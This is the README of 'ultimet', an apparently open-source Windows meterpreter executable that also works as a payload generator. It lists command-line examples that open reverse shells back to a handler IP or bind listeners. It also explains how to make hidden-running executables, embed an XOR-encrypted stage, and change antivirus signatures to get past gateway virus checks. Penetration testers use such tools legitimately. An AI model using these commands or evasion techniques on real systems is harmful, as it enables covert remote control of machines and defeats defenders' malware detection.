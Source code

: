 ================================================
[ultimet] - The ultimate meterpreter executable.
================================================
  ...your one stop shop for all your
              meterpreter executable needs...

Usage, examples and faq http://eldeeb.net/wrdprs/?p=176

#0. Executive Summary :)#
ultimet:
 - Is a windows executable that can function as various meterpreter flavours, in addition to functioning as "msfpayload" to generate exe files that run hidden when executed.
 - Supports functioning as the following meterpreter "types": "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https", "metsvc_bind_tcp" and "metsvcreverse_tcp"
 - Can create exe files that connects upon execution using pre-configured settings "exactly as msfpayload generated exe", however, generated exe files still accept command line arguments and settings could be reset or changed, all supported from within that single exe ... "meterpreter-on-steroids :)".
 - The generated exe is a pre-configured ultimet that can be used to create OTHER exe files! so, let's say you created a reverse_tcp exe using the `--msfpayload` option, you can use THAT exe later to create another bind_metsvc, then use THAT exe to create a reverse_http ... and so on, or simply reset to default...pretty neat! 
 _ultimet is a program that once found its way to inside a windows environmet, you won't need msfpayload or msfvenom anymore to create different exe files for different settings, use the same exe for different situations_
 - The msfpayload-like functionality works under linux perfectly fine using "wine >= 1.3.17", no need to leave your beloved *n?x box to create a pre-configured exe.
 - Supports many options to load the stage from: Resource, Encrypted-Resource, file, encrypted file or over the network "stager-mode" ... it functions as a non-staged payload "inline" when the stage is provided "either through file or the default bundled-resource".
 - Offset of ReflectiveLoader function is calculated at runtime and bootstrap is patched in memory, so, in plain english, you can use your own self-compiled metsrv.dll as the stage!.
 
 
 _Working as payload:_
 Example#1: Connect back to a meterpreter/reverse_tcp handler, LPORT=4444, LHOST=192.168.59.132
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444`
 Example#2: Start listening "bind" on all interfaces waiting for a meterpreter/bind_tcp handler to connect, LPORT=8888
 `ultimet.exe -t bind_tcp -h 0.0.0.0 -p 8888`
 Example#3: Load stage from local file, connect back to a meterpreter/reverse_http handler, LPORT=8080, LHOST=192.168.59.132
 `ultimet.exe -f c:\wwwroot\uploads\metsrv.dll -t reverse_http -h 192.168.59.132 -p 8080`

_Working as msfpayload:_
 Example#1: msfpayload windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.59.132
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444 --msfpayload`
 Example#2: Reset exe to default and remove all pre-set connection settings
 `ultimet.exe --reset`
 Example#3: Remove bundled stage to create a smaller file
 `ultimet.exe --remove-stage`
 
---------------
1. Introduction
---------------
  - Stand-alone meterpreter executables that are created using (msfpayload/msfvenom) are not flexible in selecting the LHOST, LPORT or even the transport after being created ... i.e. once you create the exe, you cannot change any of the settings you specified during the creation of the executable.

  - Meterpreter by design is a "staged" payload, it consists of a "stager" and a "stage"; when msfpayload|msfvenom create an exe, that's the "stager" part of meterpreter, which has only one purpose: When executed, connect back to the exploit/multi/handler, make room for the stager, copy the "stage" from handler, then execute the "stage" ... that "stage" is nothing but a patched version of "metsrv.dll" that you find in metasploit directory ... this scenario presents a challenge in highly secure environments(!) where incoming files from the internet are checked for viruses `:)` ...  example: someone created a meterpreter/reverse_http exe using msfvenom, then he manages to bypass AV somehow and successfully executed this exe on one machine inside the target environment, if there's some kind of virus checking of downloaded files at the gateway/proxy level ... the "stage" gets flagged, not downloaded, not executed, and you're doomed.

-------------------
2. What is ultimet?
-------------------
  - read the executive summary ...

------------------------------------------------
3. What are the supported transports (payloads)? 
------------------------------------------------
- It supports "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https" and "bind_metsvc & reverse_metsvc <- when stage included". 

---------------------------------------
4. How exactly is the stage "included"? 
---------------------------------------
- The "stage" can be loaded using any of the following options:
  - From a resource, or an encrypted resource that is included in the exe itself.
  - From a file (metsrv.dll), or an encrypted file.
  - ... if stage is not available, stage gets loaded over the network, which is basically falling back into "stager-mode".

------------------
5. inmet & ultimet 
------------------
The zip file contains two exe, inmet & ultimet:
- inmet is (ultimet + stage as a resource) that is the (exe) that has the (stage as a resource).
- ultimet is (inmet - stage as resource) that is JUST THE EXE.
- so, if you used any PE resource editor to crack open inmet.exe, you'll find a resource called "BINARY" and ID "101", if you deleted that resource, it will still work, but as a stager only.
- ... if you took that "stripped-down" exe again, opened it, and imported metsrv.dll (or the encrypted version of it)  into that exe, called the resource "BINARY" and set the ID to "101" ... it will become an inline exe again.
- inmet and ultimet are SAME EXECUTABLE that detects when it's just a mere stager, or the inline version of the executable.
- Got it? ... if not just download both and try to figure out the difference on your own ...

---------------
6. Encryption?! 
---------------
- ultimet will load metsrv.dll if it is plain (the one in your computer) or encrypted using the following scheme:
    - XOR every byte % a random 16-bytes key (position = i % 16; metsrv[i] ^=  key[position])
    - PREPEND the whole encrypted metsrv.dll with the 16 bytes random key :)
- FIPS compliant, strong and unbreakable encryption, I know, thank you ... but it gets the job done pretty well "AV sig change".
- A tool is included that does this automatically (ultimet_xor.exe) ... just drag metsrv.dll over it and you'll get a file called "encrypted.rsc" ... import that into ultimet.exe, they'll know how to play nice with each other.

---------------
7. Known issues 
---------------
- Currently the ReflectiveDLL bootstrap has the RVA_to_file offset of the ReflectiveLoader  hardcoded, so, you cannot use your own metsrv.dll if that offset is different without changing the offset in "constants.h" ... working on it.
- If your linker complained about not finding "encrypted.rsc" ... open "inmet.rc" using a text editor, and hard code the path there "or just put it on the root of your "e:\" drive ... to lazy to fix that and VS can be a **** sometimes.

----------------
8. Bug reporting 
----------------
- Github
- ultimet@eldeeb.net

---------
9. Author 
---------
- Sherif Eldeeb
- http://eldeeb.net
- @SheriefEldeeb
- archeldeeb@gmail.com
Made in Egypt.

... P.S: I am not a developer ;)

-------------------
10. Contributors:
-------------------
- Anwar Mohamed "@anwarelmakrahy"
  Added support for metsvc_bind_tcp & bind_tcp.
  
-------------------
11. Acknowledgments
-------------------
- All the extremely helpful people at #metasploit, and the mailing list:
hdm, corelanc0d3r, mihi, egypt, kernelsmith, tillo.
- Stephen Fewer for helping with ReflectiveDll stuff.
- @lnxg33k, @anwarelmakrahy & Yehia Mamdouh: for testing and bug reporting.




